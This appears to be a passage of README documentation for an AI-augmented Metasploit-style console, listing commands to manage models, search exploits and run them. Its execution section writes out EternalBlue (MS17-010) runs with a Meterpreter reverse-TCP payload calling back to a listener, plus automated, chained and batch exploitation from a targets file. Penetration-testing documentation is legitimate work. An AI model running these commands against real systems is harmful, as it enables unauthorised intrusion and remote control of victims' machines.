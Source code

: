 ### AI Model Management

```bash
# List available models
msf-ai> ai models list

# Update models
msf-ai> ai models update

# Download specific model
msf-ai> ai models download vulnerability_analyzer

# Show model information
msf-ai> ai models info vulnerability_analyzer

# Model statistics
msf-ai> ai models stats
```

## Exploitation Framework

### Exploit Management

```bash
# List available exploits
msf-ai> exploits list

# Search exploits
msf-ai> exploits search --platform windows
msf-ai> exploits search --cve CVE-2017-0144
msf-ai> exploits search ms17

# Show exploit information
msf-ai> exploits info ms17_010_eternalblue
msf-ai> exploits show windows/smb/ms17_010_eternalblue

# Check exploit compatibility
msf-ai> exploits check ms17_010_eternalblue --target 192.168.1.100
```

### Exploit Execution

```bash
# Manual exploit execution
msf-ai> exploit ms17_010_eternalblue --target 192.168.1.100 --payload windows/meterpreter/reverse_tcp

# Set exploit options
msf-ai> exploit ms17_010_eternalblue --target 192.168.1.100 --lhost 192.168.1.50 --lport 4444

# AI-assisted exploitation
msf-ai> ai exploit --target 192.168.1.100 --auto

# Exploit chaining
msf-ai> ai exploit --target 192.168.1.100 --chain --depth 3

# Batch exploitation
msf-ai> exploit --targets-file targets.txt --auto
```
